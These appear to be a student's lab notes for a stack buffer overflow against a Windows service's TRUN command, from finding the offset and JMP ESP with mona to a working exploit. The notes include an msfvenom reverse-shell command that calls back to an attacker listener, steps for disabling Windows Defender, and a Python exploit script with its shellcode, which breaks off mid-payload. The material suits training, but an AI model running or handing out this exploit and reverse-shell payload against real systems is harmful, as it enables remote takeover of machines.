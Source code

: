 # Windows

1) strings the program to look through it to see if it is for windows (will have dll) or linux
2) get-content [file] | select -first 1   (look for MZ for windows)
3) if opens listening prot start new powershell and run netstat -anob
4) find the service and find its port
5) go to linux and run nc [ip] [port]
6) see what the port does and get as much onfo as possible
7) Open ghidra and try to find TRUN or the command we run
8) close ghidra and open immunity debugger as admin
9) File -> attach -> process id of whats running (it will pause the program when it attaches, press play to let ir run again, << rewind button for when we break it)
10) click play to run program
11) go to lin ops to build exploit and verify size of buffer and send data to server
12) go to wiremask and get set the size to what the buffer is
13) run script on lin-ops and then look at results in the immunity debugger screeen in the top right eip section will have a value
14) delete buf += line, add back buf += "A" * number from wiremask, add another buf += "BBBB"
15) rewind program on windows then press play
16) run script again to make sure it actually overrides the script by checking EIP has 42424242
17) find jump esp locations by seraching !mona modules. it will bring up a window with dlls and more
18) find the vulnerable dll that we can exploit, run !mona jmp -r esp -m"[dll that is exploitable]"
19) click window -> log data then it will show the jmp esp locations
20) grab first 4 of results and right click copy to clipboard then paste it in. change upper case letters to lower case
21) sepperate then reverse the order (0x625012a0 -> 62 50 12 A0 "\xa0\x12\x50\x62")
22) grab first jmp esp location and a dd it in where the 4 BBBB are, also add buf += "\x90" * 15
23) generate a payload with msfvenom -p windows/shell/reverse_tcp lhost=192.168.65.20 lport=10006 -b "\x00" -f python    (everything outside the network can talk to the 10.50.XX.XX) then copy results into the script
24) set up a msconsole, use multi/handler, show options, set payload windows/meterpreter/reverse_tcp, set LHOST 0.0.0.0, set LPORT 10006, ctrl+c the last running of script, go to windows op staiton, rewind and play so the it is running, turun off realtime protection from windows defender
25) up arrow, click on sheild icon, click virus and protections settings, turn off real time protection
26) back on temrinator, in msfconsole run exploit
27) run script and pray the shell code worked (make sure to play the script.)


#!/usr/bin/env python
 2 import socket
 3
 4 buf = "TRUN /.:/"
 5 buf += "A" * 2003
 6 buf += "\xa0\x12\x50\x62"
 7 buf += "\x90" * 15
 8 '''
 9 0x625012a0 -> 62 50 12 A0 "\xa0\x12\x50\x62"
10 0x625012ad -> 62 50 12 AD "\xad\x12\x50\x62"
11 0x625012ba -> 62 50 12 BA "\xba\x12\x50\x62"
12 0x625012c7 -> 62 50 12 C7 "\xc7\x12\x50\x62"
13
14 '''
15 buf += b"\xb8\x81\xb1\x7d\xe7\xd9\xcc\xd9\x74\x24\xf4\x5b"
16 buf += b"\x2b\xc9\xb1\x59\x31\x43\x14\x03\x43\x14\x83\xeb"
17 buf += b"\xfc\x63\x44\x81\x0f\xec\xa7\x7a\xd0\x92\x96\xa8"
18 buf += b"\x59\xb7\xbd\xc7\x08\x07\xb5\x8a\xa0\xec\x9b\x3e"
19 buf += b"\xb6\x45\x51\x19\x43\xdb\x4e\x54\xac\x2a\x4f\x3a"
20 buf += b"\x6e\x2d\x33\x41\xa3\x8d\x0a\x8a\xb6\xcc\x4b\x5c"
21 buf += b"\xbc\x21\x01\x08\xb5\xef\xb6\x3d\x8b\x33\xb6\x91"
22 buf += b"\x87\x0b\xc0\x94\x58\xff\x7c\x96\x88\xaf\xf7\xd0"
23 buf += b"\x30\xc4\x50\xc1\x41\x09\xe5\xc8\x36\x91\xaf\x41"